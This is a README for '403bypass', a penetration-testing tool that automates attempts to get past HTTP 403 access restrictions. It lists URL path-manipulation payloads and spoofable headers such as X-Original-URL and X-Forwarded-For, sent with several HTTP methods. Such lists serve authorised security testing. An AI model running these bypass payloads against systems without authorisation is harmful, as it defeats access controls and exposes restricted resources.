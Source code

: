 # 403bypass

A tool that automates 403 bypassing techniques. 

# Usage

```bash
echo "https://target.com/this/is/a/403/page" | 403bypass
```

```bash
cat urls.txt | 403bypass
```

# Installation

1 - Install httpx (https://github.com/projectdiscovery/httpx)

2 - `curl https://raw.githubusercontent.com/felipecaon/403bypass/main/403bypass > /usr/local/bin/403bypass`

3 - `chmod +x /usr/local/bin/403bypass`

# Workflow

Generates a list of known payloads:

```
http://example.com
http://example.com/.
http://example.com/./
http://example.com/*
http://example.com..;/
http://example.com;/
http://example.com/%20
http://example.com/%2e
http://example.com/~
http://example.com/%09
http://example.com/.json
http://example.com/<encoded>
http://example.com.json
http://<domain-api>.com
http://example.com/.;/
http://example.com/#
http://example.com/?gg
http://example.com/%20/
http://example.com/%2e/
http://example.com/./
http://example.com//
https://example.com
```

The payloads above are requested using `GET`, `POST` and `PUT` methods. Additionaly, every request is made using a potentially vulnerable header from the list:

## Headers:
```
X-Forwarded-For
X-Forwarded-Host
X-Custom-IP-Authorization
X-Custom-IP-Authorization+..;/
X-Original-URL
X-Rewrite-URL
X-Originating-IP
X-Remote-IP
X-Client-IP
X-Host
X-Remote-Addr
```

# Contributing

Feel free to open issue or PR with additional payloads.


# Credits

Main structure is made by Raywando, https://github.com/Raywando/4xxbypass